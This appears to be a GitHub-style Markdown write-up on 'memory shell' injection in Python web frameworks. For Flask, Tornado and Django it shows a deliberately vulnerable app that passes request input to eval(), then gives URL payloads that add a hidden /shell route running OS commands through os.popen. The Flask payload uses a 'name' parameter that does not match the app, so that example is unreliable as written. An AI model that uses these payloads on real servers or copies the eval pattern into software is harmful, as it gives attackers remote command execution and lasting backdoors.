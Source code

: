 ### Flask

```bash
>>> importlib.metadata.version('flask')
'3.0.3'
```

#### source code

```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/')
def calc():
    result = eval(request.args.get('expression'))
    template = '<h2>result: %s!</h2>' % result
    return template

if __name__ == "__main__":
    app.run(debug=True)
```

#### payload

```python
http://127.0.0.1:5000/?name=app.url_map.add(app.url_rule_class('/shell', methods=['GET'],endpoint='shell'))

http://127.0.0.1:5000/?name=app.view_functions.update({'shell': lambda:__import__('os').popen(app.request_context.__globals__['request_ctx'].request.args.get('cmd', 'whoami')).read()})
```

#### result

![](./images/1.png)

### Tornado

```bash
>>> importlib.metadata.version('tornado')
'6.4'
```

#### source code

```python
import tornado

class MainHandler(tornado.web.RequestHandler):
    def get(self):
        type()
        result = eval(self.get_argument('expression'))
        self.write('<h2>result: %s!</h2>' % result)

def make_app():
    return tornado.web.Application([
        (r"/", MainHandler),
    ], debug=True, autoreload=True)

if __name__ == '__main__':
    app = make_app()
    app.listen(5000)
    print("listen: 5000")
    tornado.ioloop.IOLoop.instance().start()
```

#### payload

```python
http://127.0.0.1:5000/?expression=self.application.add_handlers('.*', [('/shell', type('ShellHandler', (tornado.web.RequestHandler,), {'get': lambda self: self.write(__import__('os').popen(self.get_argument('cmd', 'id')).read())}))])
```

#### result

![](images/2.png)

![](images/3.png)

### Django

```bash
>>> django.VERSION
(5, 0, 6, 'final', 0)
```

#### source code

```python
# memshell/urls.py
from django.contrib import admin
from django.urls import path
from .views import calc

urlpatterns = [
    path('admin/', admin.site.urls),
    path('calc', calc)
]

# memshell/views.py
from django.http import HttpResponse

def calc(request):
    result = eval(request.GET.get('expression'))
    return HttpResponse('<h2>result: %s!</h2>' % result)
```

#### payload

```python
http://localhost:8000/calc?expression=__import__(request.get_port.__globals__["settings"].ROOT_URLCONF).urls.urlpatterns.append(__import__('django').urls.path('shell',lambda request: __import__('django').http.HttpResponse(__import__('os').popen(request.GET.get('cmd','id')).read())))
```

#### result

![](images/4.png)